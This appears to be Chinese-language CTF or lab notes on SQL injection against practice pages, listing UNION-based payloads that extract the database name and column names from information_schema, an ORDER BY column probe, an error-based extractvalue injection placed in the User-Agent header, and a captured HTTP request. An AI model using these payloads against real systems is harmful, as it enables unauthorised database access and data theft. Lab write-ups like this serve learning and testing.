 http://113.45.183.x:45962/get.php?id=0'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database()%23

![image-20240902182752-wg0ti0r](assets/image-20240902182752-wg0ti0r.png)

# [Post Inject](http://113.45.183.4:38544/post.php)

’order by 3 #    字段数2

![image-20240902193206-0gmme72](assets/image-20240902193206-0gmme72.png)

'union select 1,database()#

![image-20240902193633-c90ahq2](assets/image-20240902193633-c90ahq2.png)

'union select 1,group_concat(column_name) from information_schema.columns where table_schema=database()#

![image-20240902194018-7bvddj7](assets/image-20240902194018-7bvddj7.png)

# [Http Header Inject](http://113.45.183.4:38544/ua.php)

![image-20240902195638-c707tis](assets/image-20240902195638-c707tis.png)

代理抓包并修改UA头

payload：' or extractvalue(1,concat(0x7e,(select database()))),1,1)#     ((20240822112324-78jwsfh "extractvalue() 函数主要用于从XML文档中提取数据。"))

```php
POST /ua.php HTTP/1.1
Host: 113.45.183.x:38544
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://113.45.183.4:38544
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://113.45.183.4:38544/ua.php
```
